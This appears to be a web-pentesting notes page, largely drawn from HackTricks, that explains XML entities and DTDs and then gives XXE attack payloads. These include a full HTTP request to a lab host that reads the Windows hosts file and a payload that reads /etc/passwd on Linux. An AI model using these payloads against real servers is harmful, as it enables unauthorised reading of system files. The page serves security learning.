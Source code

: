 ```yaml
---
title: XXE - XEE XML External Entity attack 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - web pentesting
  - xee
  - xxe

---
```


# XXE - XEE XML External Entity attacks

Most of this content comes from [HackTricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity).

## Basic concepts

### What it XML?

XML stands for "extensible markup language". XML is a language designed for storing and transporting data. Like HTML, XML uses a tree-like structure of tags and data. Unlike HTML, XML does not use predefined tags, and so tags can be given names that describe the data. 

### What are XML entities?

XML entities are a way of representing an item of data within an XML document, instead of using the data itself. Various entities are built in to the specification of the XML language. For example, the entities &lt; and &gt; represent the characters < and >. These are metacharacters used to denote XML tags, and so must generally be represented using their entities when they appear within data.

### What are XML elements?

Element type declarations set the rules for the type and number of elements that may appear in an XML document, what elements may appear inside each other, and what order they must appear in. For example:

```
<!ELEMENT stockCheck ANY> Means that any object could be inside the parent <stockCheck></stockCheck>

<!ELEMENT stockCheck EMPTY> Means that it should be empty <stockCheck></stockCheck>

<!ELEMENT stockCheck (productId,storeId)> Declares that <stockCheck> can have the children <productId> and <storeId>
```

### What is document type definition?

The XML document type definition (DTD) contains declarations that can define the structure of an XML document, the types of data values it can contain, and other items. The DTD is declared within the optional DOCTYPE element at the start of the XML document. The DTD can be fully self-contained within the document itself (known as an "internal DTD") or can be loaded from elsewhere (known as an "external DTD") or can be hybrid of the two.


### What are XML custom entities?

XML allows custom entities to be defined within the DTD. For example:

```
<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>
```

This definition means that any usage of the entity reference &myentity; within the XML document will be replaced with the defined value: "my entity value".


### What are XML external entities?

XML external entities are a type of custom entity whose definition is located outside of the DTD where they are declared. The declaration of an external entity uses the SYSTEM keyword and must specify a URL from which the value of the entity should be loaded. For example:

```
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
```

The URL can use the file:// protocol, and so external entities can be loaded from file. For example:

```
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
```

## Main attacks

### New Entity test

In this attack I'm going to test if a simple new ENTITY declaration is working:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY toreplace "3"> ]>
<stockCheck>
    <productId>&toreplace;</productId>
    <storeId>1</storeId>
</stockCheck>
```

### Read the file attack

In a windows system, we may use c:/windows/system32/drivers/etc/hosts:

```
POST /process.php HTTP/1.1
Host: 10.129.95.192
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
Content-Length: 192
Origin: http://10.129.95.192
Connection: close
Referer: http://10.129.95.192/services.php
Cookie: PHPSESSID=1gjqt353d2lm5222nl3ufqru10

<?xml version = "1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/system32/drivers/etc/hosts'>]>
<order><quantity>2</quantity><item>
&test;
</item><address>1</address></order>
```

In a Linux server go for 

```
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
```
